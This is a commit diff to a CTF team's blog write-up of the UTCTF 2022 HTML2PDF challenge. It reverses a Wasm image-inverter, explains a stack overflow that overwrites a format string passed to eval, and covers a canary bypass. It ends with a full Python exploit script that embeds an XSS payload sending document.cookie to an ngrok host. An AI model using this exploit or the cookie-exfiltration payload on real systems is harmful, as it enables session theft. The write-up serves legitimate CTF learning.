

Before and after one commit to ubcctf/ubcctf.github.io, a Jekyll site: the page built from _posts/2022-3-13-UTCTF-HTML2PDF.md, in a window 1280 px wide and 1400 px high, scrolled down 2684 px. Shown: the whole window, without its empty margins (258-1018 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; before the commit the page ends 3800 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Ghidra details for sigma

````diff
--- a/_posts/2022-3-13-UTCTF-HTML2PDF.md
+++ b/_posts/2022-3-13-UTCTF-HTML2PDF.md
@@ -100,33 +100,79 @@ app.use(bodyParser.urlencoded({limit: '10kb', extended: true}));
 
 So if we want to steal the cookie when the bot looks at our picture, we have to hide our request in the bytes of the image. But wait - the hidden JS probably won't be interpreted as code, so even if we do stego JS into our picture, how will we know it'll execute?
 
-## Oh boy, I hope you like wasm
+## Reversing the Wasm
 
-The wasm file is the logic behind the pixel color inversion. After 10 mins of reinstalling Ghidra, we can observe the output of decompiling the wasm - but first, observe the `a.out.js` files accompanying it. More specifically, observe this function:
+If an image is provided for inversion, `index.js` passes the raw binary data to `draw_u8a`, which allocates a block of memory inside the Wasm module using `malloc`, writes the raw PNG data there, and then calls the Wasm `draw_img` function.
+
+Using Ghidra and the [Ghidra Wasm plugin](https://github.com/nneonneo/ghidra-wasm-plugin/), we can disassemble the `draw_img` function, which looks like this:
+
+```c
+// WARNING: Removing unreachable block (ram,0x80000608)
+// WARNING: Removing unreachable block (ram,0x8000063c)
+
+void export::draw_img(void *pngbuf,undefined4 pnglen)
+
+{
+  state *param1;
+  uint uVar1;
+  undefined4 in_stack_ffd23918;
+  undefined4 in_stack_ffd2391c;
+  uint in_stack_ffd2392c;
+
+  param1 = (state *)unnamed_function_51(0);
+  unnamed_function_53(param1,pngbuf,pnglen);
+  unnamed_function_57(param1,&stack0xffd23918);
+  unnamed_function_55(param1,1,&stack0xffd2392c);
+  unnamed_function_37(param1,&stack0xffd23930,in_stack_ffd2392c,1,0);
+  for (uVar1 = 0; uVar1 < in_stack_ffd2392c; uVar1 += 1) {
+    if ((int)uVar1 % 4 != 3) {
+      (&stack0xffd23930)[uVar1] = (&stack0xffd23930)[uVar1] ^ 0xff;
+    }
+  }
+  draw_buf(&stack0xffd23930,in_stack_ffd23918,in_stack_ffd2391c);
+  return;
+}
+```
+
+There are several function calls which appear to be doing PNG decompression, followed by a loop which performs the actual inversion operation by inverting the R, G, and B components of every RGBA quartet. From the function prologue, we can see that 3000048 bytes are allocated on the C stack, which is enough for 1000000 RGB triples - but this code now supports alpha (as the site proudly proclaims). Therefore, we have a buffer overflow: the buffer used to be big enough for RGB images up to 1000x1000, but a 1000x1000 RGBA image contains 4000000 bytes, enough to overflow this stack buffer.
+
+After performing the inversion, `draw_img` calls `draw_buf`, which formas the string `draw_buf(%u, %u, %u);` and passes it to `emscripten_run_script`. `emscripten_run_script` in `a.out.js` lets us run arbitrary JS as follows:
 
 ```js
   function _emscripten_run_script(ptr) {
       eval(UTF8ToString(ptr));
     }
 ```
-A call to eval on some sort of variable which is, presumably, a string from a UTF8 variable. The `UTF8ToString` function itself calls `UTF8ArrayToString`, which has an interesting if statement:
 
-```js
-//UTF8ArrayToString()
-if (endPtr - idx > 16 && heap.subarray && UTF8Decoder) {
-    return UTF8Decoder.decode(heap.subarray(idx, endPtr));
-  } else {
-    ...
-```
+`global_0` holds the stack pointer, which is initialized to 0x500000. The static string `draw_buf(%u, %u, %u)` is located at 0x500056. Therefore, if we overflow the stack, we can overwrite the format string, which will allow us to control the string that's passed into `_emscripten_run_script` and give us arbitrary script execution. Sounds like just what we need then!
 
-Truthy value to this if statement returns a decoded string located at the subarray between the address of `idx` and `endPtr`. Whatever's in there on the stack will, eventually, be run as JS code.
+We built an image of size 894x839, which contains 3000264 bytes of image data - just enough to overflow the buffer and the format string, without overflowing too much data in the binary and risking corruption. Using `pwn.cyclic`, we overflowed the stack using a de Bruijn sequence, and verified using the WebAssembly debugger in Firefox that the format string was being overwritten - but `_emscripten_run_script` wasn't getting called at all!
 
-TODO: stop being afraid of ghidra and  add stuff here
-
-A 3M byte stack buffer is set, with size checks expecting a max of 1000x1000 RGB triples. However, the logic supports RGBA (RGB Alpha) - meaning that the max buffer size is an additional 1M to accomodate the opacity bytes, totaling to 4M. If we give the program an image that is over 3M RGBA bytes but less than 4M, we trigger an overflow whilst never triggering the size checks.
-
-When an overflow occurs, the extra bytes end up overwriting the string `draw_buf(%u, %u, %u)` which is the name of an actual function defined in `index.js`. The original logic would have passed that string to `_emscripten_run_script`, eval'ing it as JavaScript code. However, overflowing into it will change the string that's passed into `_emscripten_run_script`. Sounds like just what we need then!
+Single-step debugging revealed that `draw_img` was bailing out in an extra code block between the `for` loop and the `draw_buf` - which Ghidra had happily deleted as "unreachable"! It turns out that this code checks two 32-bit values on the stack as a simple kind of "stack canary"; since the values would not normally change, Ghidra decided that the checks were redundant. By checking the loaded canary values with `pwn.cyclic_find`, we were able to figure out the correct offsets in our image data, set the proper canaries, and watch `eval` get called!
 
 ## Solution
 
-The attack flow is now clear: we just need need to create an image which, when decoded, is a little over 3M bytes and overflow the allocated buffer. The remaining bytes that spill into the string `draw_buf` will be a string that represents JS code. Therefore, when the logic passes it to `_emscripten_run_script()`, it doesn't eval `draw_buf()`, it evals our XSS payload instead.
+The attack flow is now clear: we just need need to create an image which, when decoded, is a little over 3M bytes and overflow the allocated buffer, with the proper stack canaries in place. The remaining bytes that spill into the string `draw_buf` will be a string that represents JS code. Therefore, when the logic passes it to `_emscripten_run_script()`, it doesn't eval `draw_buf()`, it evals our XSS payload instead.
+
+Here's our exploit script:
+
+```python
+import numpy as np
+from PIL import Image
+import pwn
+import struct
+
+payload = "fetch('https://redacted.ngrok.io/?c='+(document.cookie));"
+
+payload = payload.encode() + b"\0"
+arr = np.zeros((839, 894, 4), dtype='uint8')
+row = bytearray(pwn.cyclic(894 * 4 - 1) + b'\0')
+row[3312:3316] = struct.pack("<I", 0x42042042)
+row[3316:3320] = struct.pack("<I", 0xdeadbeef)
+row[3414:3414 + len(payload)] = payload
+row = np.asarray(list(row))
+arr[:, :, 3] = 0xff
+arr[-1] = row.reshape((-1, 4))
+arr[:, :, :3] ^= 0xff
+Image.fromarray(arr).save("exploit.png")
+```
````
